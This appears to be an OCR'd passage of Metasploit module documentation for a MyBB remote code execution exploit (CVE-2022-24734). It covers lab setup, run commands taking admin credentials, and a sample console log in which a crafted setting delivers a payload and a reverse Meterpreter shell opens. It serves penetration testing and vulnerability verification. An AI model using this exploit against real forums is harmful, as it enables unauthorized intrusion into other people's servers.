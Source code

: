 ```
            fastcgi_split_path_info ^(.+\.php)(/.+)$;
            fastcgi_pass 127.0.0.1:9999;
            fastcgi_index index.php;
            include fastcgi_params;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param PATH_INFO $fastcgi_path_info;
        }
	}
```
  - Run:
```
    cd C:\nginx
    start nginx.exe
```
- Install MyBB
  - Follow the installation process [here](https://docs.mybb.com/1.8/install/).

## Verification Steps
1. Install the application (see [Installation Steps](#installation-steps))
1. Start msfconsole
1. Do: `use exploit/multi/http/mybb_rce_cve_2022_24734`
1. Do: `run LHOST=<local host IP> RHOSTS=<remote host IP> USERNAME=<MyBB user> PASSWORD=<MyBB password>`
1. You should get a shell.
1. Try again with a different targets

## Options

### USERNAME

The username of a privileged MyBB account. It must have rights to add or update setting (usually with the administrator role)

### PASSWORD

The password of the MyBB account.

## Scenarios

### Windows (target 0 - PHP)
```
msf6 exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Sending stage (39860 bytes) to 192.168.1.215
[*] Meterpreter session 1 opened (192.168.1.44:4444 -> 192.168.1.215:63777) at 2022-05-23 15:41:40 +0200
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...

meterpreter > sysinfo
```